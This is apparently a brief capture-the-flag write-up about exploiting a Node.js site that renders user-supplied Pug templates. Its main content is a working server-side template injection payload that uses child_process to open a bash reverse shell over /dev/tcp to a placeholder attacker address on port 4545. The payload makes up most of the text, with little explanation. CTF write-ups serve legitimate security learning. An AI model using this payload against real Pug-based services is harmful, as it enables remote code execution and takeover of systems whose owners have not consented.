




# Port Scan

Visiting The webpage I have found <br/>

Node.js template engine pug is running taking pug code converting it to HTML. <br/>
I uploaded a reverse shell and got the shell and flag. <br/>
```
doctype html
head
  title #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "sh -i >& /dev/tcp/<attacker_ip>/4545 0>&1"')}()}
```


